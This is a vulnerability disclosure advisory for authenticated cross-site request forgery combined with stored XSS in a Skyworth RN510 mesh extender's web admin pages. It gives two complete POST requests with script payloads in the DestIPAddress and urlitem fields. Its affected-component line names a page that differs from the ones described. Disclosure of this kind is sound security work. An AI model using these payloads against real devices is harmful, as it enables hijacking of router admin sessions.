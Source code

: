 ========================================================
Authenticated  XSRF in RN510 mesh Device
========================================================

. contents:: Table Of Content

Overview
========

Title:- Authenticated XSRF in RN510 Mesh Extender. 
CVE-ID :- Requested
Author: Kaustubh G. Padwad
Vendor: Shenzhen Skyworth Digital Technology Company Ltd.(http://www.skyworthdigital.com/products)
Products:
	 1. RN510 with firmware V.3.1.0.4 (Tested and verified)
Potential 
	2.RN620 with respective firmware or below 
	3.RN410 With Respective firmwware or below.

Severity: High--Critical

Advisory ID
============
KSA-Dev-0011

About the Product:
==================

* RN510 dual-band wireless AC2100 access point delivers high-speed access for web surfing and HD video streamings. Integrated with two gigabit LAN ports, and a dual-band AP which supports 2x2 802.11n(300Mbps) and 4x4 802.11ac (1733Mbps) concurrently, RN510provides a stable & reliable high speed wired and wireless connectivity for home user and SOHO users. Utilizing state of art EasyMesh solution, two or more RN510 units could be easily teamed upwith Skyworth ONT gateway (e.g. GN543) and form an automatically organized network. RN510 could support either wired line backhaul or wireless backhaul to other mesh node. User could enjoy a wonderful zero-touch, robust and failure auto recovery, seamless connected wireless home networking experience.
RN510 uses a system of units to achieve seamless whole-home Wi-Fi coverage, eliminate weak signal areas once and for all. RN510 work together to form a unified network with a single network name. Devices automatically switch between RN510s as you move through your home for the fastest possible speeds. A RN510 Dual-pack delivers Wi-Fi to an area of up to 2,800 square feet. And if that’s not enough, simply add more RN510 to the network anytime to increase coverage. RN510 provides fast and stable connections with speeds of up to 2100 Mbps and works with major internet service provider (ISP) and modem. Parental Controls limits online time and block inappropriate websites according to unique profiles created for each family member. Setup is easier than ever with the Skywifi app there to walk you through every step.

Description: 
============
An issue was discovered on Shenzhen Skyworth

The value of DestIPAdderss under /cgi-bin/net-routeadd.asp is not properly sanatizing hence it allow to execute malicious javascript, which result a successful cross site scripting in /cgi-bin/net-routeadd.asp, Additionally value of urlitem under /cgi-bin/sec-urlfilter.asp is also not getting properly sanitize hence it will result to successful cross site scripting.

Since device dont have CSRF valdation it is possible to perform the XSRF by using CSRF + XSS vulnerability.


Additional Information
========================
Sample request -1 

Request
========

POST /cgi-bin/net-routeadd.asp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.1/cgi-bin/net-routeadd.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 235
Connection: close
Cookie: UID=admin; PSW=admin; SESSIONID=boasid7a108566d118e9b5bd235b1412cb770c
Upgrade-Insecure-Requests: 1

add_num=0&user_def_num=0&WanInterfaceFlag=br0&metricFlag=0&gwflag=Yes&ifflag=Yes&DestIPAddress=<svg><script ?>alert(document.cookie)&DestSubnetMask=255.255.255.255&gwStr=on&GatewayIPAddress=192.168.1.1&ifStr=on&Interface=br0&SaveFlag=1

Sample Request-2

POST /cgi-bin/sec-urlfilter.asp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.1/cgi-bin/sec-urlfilter.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 162
Connection: close
Cookie: UID=admin; PSW=admin; SESSIONID=boasid7a108566d118e9b5bd235b1412cb770c
Upgrade-Insecure-Requests: 1

Save_Flag=1&Actionflag=Add&EnableUrlFilterFlag=1&delnum=&add_num=1&Url_num=1&enableFilter=on&FilterPolicy=0&urlitem=%3C%2Fscript%3E%3Csvg+onload%3Dalert%281%29%3E


[Affected Component]
IpAddr function on page /cgi-bin/app-staticIP.asp inside the boa web server implementation.

------------------------------------------
[Attack Type]
Remote
------------------------------------------
[Impact Code execution]
true
------------------------------------------
[Impact Denial of Service]
true

------------------------------------------
[Attack Vectors]
An Authentiated attacker need to run set the cross site scripting payload at DestIPAddress,urlitem under /cgi-bin/net-routeadd.asp and /cgi-bin/sec-urlfilter.asp respectively in order to achive XSS.

[Vulnerability Type]
====================
CSRF, XSS

How to Reproduce: (POC):
========================

One can use below exploit

Attacker needs to run above requests in order to achive to XSRF.


Mitigation
==========

[Vendor of Product]
Shenzhen Skyworth Digital Technology Company Ltd.(http://www.skyworthdigital.com/products)

Disclosure: 
===========
19-Jan-2021:- reported this to vendor
19-Jan-2021:- Requested for CVE-ID


credits:
========
* Kaustubh Padwad
* Information Security Researcher
* kingkaustubh@me.com
* https://s3curityb3ast.github.io/
* https://twitter.com/s3curityb3ast
* http://breakthesec.com
* https://www.linkedin.com/in/kaustubhpadwad
